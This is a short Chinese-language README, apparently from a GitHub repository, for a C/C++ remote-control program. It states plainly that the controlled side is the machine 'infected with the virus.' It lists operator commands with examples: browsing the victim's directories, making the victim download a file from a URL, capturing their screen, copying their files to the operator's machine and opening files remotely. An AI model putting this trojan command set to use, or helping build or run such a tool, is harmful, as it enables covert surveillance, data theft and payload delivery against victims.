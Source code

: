 # Remote-Control
just Remote-Control with C/C++


关于欲儿远控的说明

命令大全 

dir-查询目录（查询对方指定硬盘路径的文件）——例如：dir-D:\\
down-下载链接-保存路径（让对方硬盘下载指定链接的文件）——例如：down-http://www.anyuer.club-D:\\index.ph
screen-保存路径（截取对方的屏幕，保存到对方硬盘）——例如：screen-D:\\001.jpg
pass-对面硬盘文件路径-你自己保存的文件路径（让对方电脑文件传输至你的电脑）——例如：pass-D:\\001.jpg-E:\\002.jpg
open-对方硬盘的文件路径(让对方电脑打开对方硬盘上的文件)——例如：open-D:\\001.jpg

以上《对方》是指中病毒的那一边。《自己》是指后台管理者
